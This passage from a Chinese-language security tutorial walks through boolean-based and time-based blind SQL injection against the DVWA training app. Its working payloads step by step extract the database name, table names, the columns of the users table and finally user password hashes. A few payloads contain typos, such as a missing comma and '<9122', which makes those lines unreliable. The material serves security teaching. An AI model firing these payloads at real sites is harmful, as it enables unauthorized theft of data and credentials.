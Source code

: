 8. 在文本框中输入 `1' and ascii(substr(database(),2,1))<119#`，返回结果 `exists`，输入 `1' and ascii(substr(database(),2,1))<118#`，返回结果 `MISSING`，说明第二位字符是小写字母 `v`，截图略

9. 使用相同的方法，最终可以猜测出数据库名为 `dvwa`

10. 在文本框中输入 `1' and (select count(table_name) from information_schema.tables where table_schema=database())=1#`，返回结果 `MISSING`，输入 `1' and (select count(table_name) from information_schema.tables where table_schema=database())=2#`，返回结果 `exists`，说明当前数据库中存在 2 张表，截图略

11. 在文本框中输入 `1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=1#`，返回结果 `MISSING`，逐步增大猜测数字，直到猜测数字 9，返回结果 `exists`。最后得知数据库中第一张表名长度为 9 字符，截图略

    ```
    select table_name from information_schema.tables where table_schema=database() limit 0,1
    //查询当前数据库中的表名，只取第 0 和第 1 条记录之间的记录，也就是查询出的第一张表名
    ```

12. 在文本框中输入 `1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,2))=1#`，返回结果 `MISSING`，逐步增大猜测数字，直到猜测数字 5，返回结果 `exists`。最后得知数据库中第二张表名长度为 5 字符，截图略

    ```
    select table_name from information_schema.tables where table_schema=database() limit 1,2
    //查询当前数据库中的表名，只取第 1 和第 2 条之间的记录，也就是查询出的第二张表名
    ```

13. 在文本框中输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97#`，返回结果 `exists`，输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122#`，返回结果 `exists`，说明第一张表名的第一位字符为小写字母 (原理同第 6 步)

14. 逐步缩小范围，最终可确认第一张表名的第一位字符为字母 g。输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97#`，猜解第一张表名的第二位字符，过程略

15. 输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,2),1,1))>97#`，猜解第二张表名的第一位字符。重复上述步骤最终可猜解出两个表名分别为 `guestbook` 和 `users`，过程略

16. 输入 `1 and (select count(column_name) from information_schema.columns where table_name='users')=1 #`，来猜解 `users` 表中的字段数量，通过不断加大猜解数字来缩小范围，最终确定字段数量，过程略

17. 输入 `1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=1 #`，猜解 `users` 表中第一个字段名的长度，过程略

18. 输入 `1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1)1,1))<97#`，猜解表中第一个字段名的第一位字符内容，原理同上，过程略

19. 最终猜解出存在 `user` 和 `password` 字段，原理同上，过程略

20. 输入 `1' and ascii(substr((select user from users limit 0,1),1,1))<97#`，来猜解第一个用户的用户名的第一位字符内容。最终可以猜解出所有用户的用户名和密码密文，原理同上，过程略

##### 6.2.2 延时型盲注

1. 在文本框输入 `1' and sleep(5)#`，页面响应有明显延时，输入 `1 and sleep(5)`，页面响应迅速，说明该注入点为字符型

2. 在文本框输入 `1' and if(length(database())=1,sleep(5),1)#`，页面没有延时，说明 `length(database())=1` 结果为假，当前数据库名长度不为 1；逐步增加猜测数字，直到输入 `1' and if(length(database())=4,sleep(5),1)#`，页面延时，说明当前数据库名长度为 4

3. 在文本框输入 `1' and if(ascii(substr(database(),1,1))>97,sleep(5),1)#`，页面延时；输入 `1' and if(ascii(substr(database(),1,1))<9122,sleep(5),1)#`，页面没有延时，说明当前数据库名第一个字符为小写字母，原理同布尔型盲注。逐渐缩小猜解范围，页面有延时说明猜解正确，页面无延时说明猜解错误，最终可猜解出数据库名第一个字符内容为 d
